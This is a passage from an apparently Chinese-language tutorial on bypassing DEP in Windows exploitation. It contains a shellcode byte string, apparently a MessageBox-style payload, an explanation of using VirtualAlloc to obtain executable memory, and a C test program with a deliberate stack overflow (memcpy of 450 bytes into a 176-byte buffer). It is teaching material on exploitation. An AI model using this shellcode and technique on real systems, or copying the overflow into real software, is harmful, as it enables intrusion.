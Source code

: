 	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"

	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"

	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"

	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"

	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"

	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"

	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"

	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"

	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"

	;

整体的rop

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1jr1gq64fj20r30jzdh5.jpg>)


### **利用VirtualAlloc**
当程序需要一段可执行内存时，可以通过kernel32.dll中的VirtualAlloc函数来申请一段具有可执行属性的内存。
所以我们可以先用VirtualAlloc申请一段内存然后将shellcode复制到这段内存里面，以绕过DEP的限制。
函数说明：

	LPVOID VirtualAlloc(
	  LPVOID lpAddress,        // 申请内存区域的地址，如果这个参数时NULL，系统将会决定分配内存区域的位置，并且按64KB向上取整  
	  SIZE_T dwSize,           // 申请内存区域的大小
	  DWORD flAllocationType,  // 申请内存的类型 
	  DWORD flProtect          // 申请内存区域的访问控制类型，如读、写、执行等权限  
	);
	
作者给的代码：

	#include <stdlib.h>
	#include <string.h>
	#include <stdio.h>
	#include <windows.h>
	char shellcode[]="";
	void test()
	{
		char tt[176];
		memcpy(tt,shellcode,450);
	}
	int main()
	{
		HINSTANCE hInst = LoadLibrary("shell32.dll");
		char temp[200];
		test();
		return 0;
	}
